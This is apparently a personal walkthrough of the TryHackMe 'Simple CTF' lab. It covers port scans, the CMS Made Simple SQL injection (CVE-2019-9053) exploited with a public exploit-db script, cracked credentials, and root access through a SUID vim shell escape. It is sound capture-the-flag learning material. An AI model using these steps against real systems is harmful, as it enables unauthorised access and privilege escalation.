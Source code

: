 # Simple CTF

[Simple CTF](https://tryhackme.com/room/easyctf)

## Solution

- nmap scan

21/tcp   open  ftp     vsftpd 3.0.3

80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))

2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

- dirb scan

there is a dir `simple` where we find "This site is powered by CMS Made Simple
version 2.2.8"

after googling the version for a lot of the tools the
https://www.cvedetails.com/cve/CVE-2019-9053/ CVE seems to do the job. it is a
sql injection vulnerability.

can we try https://www.exploit-db.com/exploits/46635

I changed a bit the code, because it was python2... and who uses python2 in
2023? (change print to parenthesis print. and also install termcolors)
Also, my rockyou.txt is dumb and doesn't work, so I used john's.

`python exploit.py -u http://<ip>/simple --crack -w <wordlist>`

we get
- Salt for password found: 1dac0d92e9fa6bb2
- Username found: mitch
- Email found: admin@admin.com
- Password found: 0c01f4468bd75d7a84c7eb73846e8d96
- Password cracked: *******

next we can ssh into mitch's account

we can use the same strategy as before and see which binaries have SUID

`find / -user root -perm /4000`

in this case it was vim

so we can open vim and then run `:!bash` to open a shell with root user.
